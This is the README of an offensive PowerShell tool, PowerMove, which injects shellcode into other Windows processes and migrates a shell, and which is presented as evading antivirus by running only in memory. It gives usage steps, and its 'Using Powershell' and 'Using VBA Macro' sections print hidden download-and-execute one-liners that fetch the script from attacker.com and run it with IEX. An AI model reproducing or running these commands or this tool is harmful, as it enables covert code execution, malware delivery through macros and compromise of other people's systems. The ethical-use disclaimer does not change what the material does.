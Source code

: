 ![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/Logo_video2.gif)
# PowerMove.ps1
Author: 10N351R


PowerMove is a fileless process injector written in PowerShell for injecting shellcode and migrating your shell to new processes. PowerMove uses common WINAPIs such as `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` to perform simple process injections. This combination of WINAPIs are often detected by anti-virus solutions when stored on disk but will bypass these protections when executed exclusively in memory.

Tested on PowerShell version: `5.1.19041.4522`

## Instructions
To use PowerMove in an existing PowerShell shell
1. Copy the contents of PowerMove.ps1 into a text editor
2. Edit the `$targetPid` variable with the PID of the target process to inject into
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Copy the contents from the beginning `###` to the end `###` to your clipboard
5. Paste the contents into your existing PowerShell shell and press `Enter`
6. Enjoy the benifits fileless process injection

## Output
![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/PowerMove_output.png)

# PowerMove_dynamic.ps1
`PowerMove_dynamic.ps1` was created to add dynamic PID resolution to enable remote execution via COM objects in a VBA macro without embedding.

Tested on PowerShell version: `5.1.26100.4202`

## Instructions
`PowerMove_dynamic.ps1` can be executed in a Visual Basic for Applications (VBA) macro, or directly from PowerShell.
1. Copy the contents of `PowerMove_dynamic.ps1` into a text editor
2. Edit the `$targetProcName` variable with the name of the process you want to target (eg. `notepad`,`explorer`,`svchost`)
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Host `PowerMove_dynamic.ps1` on a server reachable by the target
5. Execute on the target

### Using Powershell
```powershell
powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText""
```

### Using VBA Macro
```vba
Sub TEST()
    Dim ps As String
    ps = "powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText"""
    Shell ps, vbHide
End Sub
```

## Disclaimer
**Ethical Use:** PowerMove is provided for educational and lawful purposes only. The author is not responsible for any misuse or damaged caused by this tool. By using this tool, you agree to use it ethically and comply with all applicable laws and regulations. Unauthorized use of this tool is strictly prohibited and may result in severe legal consequences.

**Use Of Artificial Intelligence:** This tool was partially developed with the assistance of Artificial Intelligence (AI), and contains portions of code generated using OpenAI's ChatGPT, an AI language model.
